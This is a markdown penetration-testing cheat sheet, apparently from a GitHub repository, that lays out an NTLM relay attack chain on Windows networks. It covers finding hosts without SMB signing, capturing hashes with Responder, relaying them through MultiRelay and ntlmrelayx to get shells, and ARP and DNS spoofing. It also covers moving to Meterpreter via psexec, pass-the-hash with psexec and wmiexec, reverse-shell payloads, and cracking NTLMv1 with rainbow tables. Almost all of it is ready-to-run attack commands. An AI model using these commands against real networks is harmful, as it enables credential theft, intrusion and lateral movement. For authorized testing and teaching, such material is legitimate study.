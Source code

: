 ## Search for SMB signing
* `responder-RunFinger -i <target>`
    - identify host with SMB signing disbled 

## Responder 
* change `/etc/responder/Responder.conf` - relay the hash
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm> <-dwPv>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
## Getting shell
### 1. MultiRelay
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

> [!Important]
To keep `SMB` and `HTTP` On in responder.conf - capture the hashes
- 1. Run responder until hashes is received and close
- 2. Run Multirelay
- 3. While MultiRelay is running, run again responder

### 2. ntlmrelayx
In responder.conf, `SMB` and `HTTP` are Off
* `impacket-ntlmrelayx -t <target> -smb2support` - dumps the local hashes
* `impacket-ntlmrelayx -t 172.16.5.10 -i` - interactive shell

### 3. MitM (dnsspoof + arpspoof)
* if no shell/token results from the above attacks, combine classic `responder` + `multirelay/ntlmrelay/smbrelay` with `dnsspoof` + `arpspoof`
* Configure __dnsspoof__:
    * `echo "<attacker-IP> *.<target-domain>" > dns`
    * `dnsspoof -i eth1 -f dns`
* Configure __arpspoof__:
    * `echo 1 > /proc/sys/net/ipv4/ip_forward`
    * `arpspoof -i eth1 -t <target> <router>`
    * `arpspoof -i eth1 -t <router> <target>`

## Upgrade to Meterpreter shell
### Windows
* msf> `use exploit/windows/smb/psexec`
  - `set smbuser <localAccount>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
  - `set smbpass <local-NTLM-hash>` - localAccount taken from `ntlmrelayx/MultiRelay.py` hash dump
e.g. localAccount and local-NTLM-hash is bolded in the following: __admin__:1005:__aad3b435b51404eeaad3b435b51404ee:179699ef43d4b9ba2f8f615f59893917__:::
### Linux
* msf> `use exploit/linux/samba/is_known_pipename`

## Other shells
### smbrelayx
* `impacket-smbrelayx -h <target> -e <payload-file>`
  - payload can be created with `msfvenom` to communicate back to a meterpreter session
  - `exploit/multi/handler` can be used as a listener meterpreter session

### psexec:
* `psexec.py <domain>/<user>:'<password>'@<target-IP>`
* `psexec.py <user>@<target-IP>` - hashes <local-NTLM hash>

### wmiexec:
* `wmiexec.py <user>@<target-IP>` - hashes <local-NTLM hash>

# Cracking NTLMv1
* msf > `use auxiliary/server/capture/smb`
* `rcracki_mt -h <8bytes-hash> *.rti -t <threads-number>` - for the first 8 bytes (16 characters) of the captured hash; use the downloadable .rti rainbow tables
* `<metasploit-framework-folder>/data/john/run.linux.x64.mmx/netntlm.pl --file <captured-hashfile-msf> --seed <password-rcracki>` - for the second half of the captured hash; results are case insensitive
* `<metasploit-framework-folder>/data/john/run.linux.x64.mmx/netntlm.pl --file <captured-hashfile-msf> --seed <full-password-from-previous>` - for the full case-sensitive password

__Rainbow tables__
- http://project-rainbowcrack.com/table.htm
- http://ophcrack.sourceforge.net/tables.php
